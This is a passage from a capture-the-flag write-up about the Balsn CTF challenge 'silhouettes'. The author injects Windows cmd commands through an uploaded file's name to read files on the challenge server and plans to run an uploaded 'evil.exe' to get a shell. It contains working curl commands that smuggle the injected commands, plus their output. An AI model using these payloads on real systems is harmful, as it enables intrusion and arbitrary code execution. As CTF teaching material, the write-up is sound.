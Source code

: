 ```
09/25/2019  12:52 PM    <DIR>          Program Files (x86)
09/25/2019  12:49 PM    <DIR>          Python37
10/05/2019  10:03 AM    <DIR>          upload
09/25/2019  12:55 PM    <DIR>          Users
11/07/2007  08:00 AM             5,686 vcredist.bmp
11/07/2007  08:09 AM         1,442,522 VC_RED.cab
11/07/2007  08:12 AM           232,960 VC_RED.MSI
09/25/2019  12:49 PM    <DIR>          Windows
09/25/2019  02:15 PM                41  F!ag#$%&'()+,-.;=@[]^_`{}~
              25 File(s)      3,169,888 bytes
               9 Dir(s)  18,757,046,272 bytes free
```

Oh, and here is the file containing our flag, by the way.

Now we just need to `cat` it. This should be easy, right? No, nothing in
Windows is easy! Actually, we already can easily read files with "convenient"
file names:

```
$ curl -F 'file=@dicom_jpeg;filename=x&cd..&cd..&type=eula.1041.txt&x' 'http://silhouettes.balsnctf.com/'
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $
...
VC Redist EULA - JPN RTM

Unicode

??????????? ???????
```

But our real target is ``` F!ag#$%&'()+,-.;=@[]^_`{}~```, which contains all
characters that we are not able to use in our command.

I started to looking at documentation about how to use wildcards and globbing
in `cmd.exe`, but quickly realized that this is most probably impossible to
implement given the restriction on characters in the file name (`?` and `*` in
particular).

This slowed me down a bit. But, quickly after, I remembered that we are able to
upload files with any contents into known directory with known name onto the
server. And thus, we may upload some `evil.exe` and send command like
`cd..&cd..&cd=upload&evil.exe`, which gives the ability to execute arbitrary
code on the server, even remote shell.

This looked like a final step to reading the flag, but before writing any code,
I decided to quickly check that there are no more obstacles on my way:

```
$ curl -F 'file=@dicom_jpeg;filename=x&cd..&cd..&cd=upload&dir&x' 'http://silhouettes.balsnctf.com/'
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $
...
error: Missing parameter dcmfile-out
$
```
